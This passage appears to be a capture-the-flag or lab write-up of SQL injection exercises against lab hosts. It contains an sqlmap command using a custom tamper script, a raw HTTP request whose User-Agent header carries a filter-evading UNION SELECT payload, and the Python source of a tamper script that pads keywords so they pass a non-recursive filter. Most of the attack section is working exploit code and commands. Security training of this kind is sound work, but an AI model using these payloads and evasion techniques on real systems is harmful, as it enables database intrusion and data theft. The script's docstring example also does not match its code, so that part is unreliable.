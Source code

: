 ```python
    return ret_val
```


SQLMap command line:
```bash
sqlmap -u 'http://6.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```

### SQLi 7
In this scenario, the case-insensitive filter cuts out all the reserved words, but the filter is not recursive.

PoC:
```bash
GET / HTTP/1.1
Host: 7.sqli.labs
User-Agent: ' uZEROFILLnZEROFILLiZEROFILLoZEROFILLnZEROFILL ZEROFILLsZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt ZEROFILL@@ZEROFILLvZEROFILLeZEROFILLrZEROFILLsZEROFILLiZEROFILLoZEROFILLnZEROFILL; ZEROFILL-- ZEROFILL-ZEROFILL
```

Tampering script:
```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Insert FILL after every character

    >>> tamper('INSERT')
    'IfillNfillSfillEfillRfillTfill
    """

    retVal = str()

    FILL = 'ZEROFILL'

    if payload:
        for i in range(len(payload)):
            retVal += payload[i] + FILL
    # Uncomment to debug
    # print "pretamper:", payload
    return retVal

```
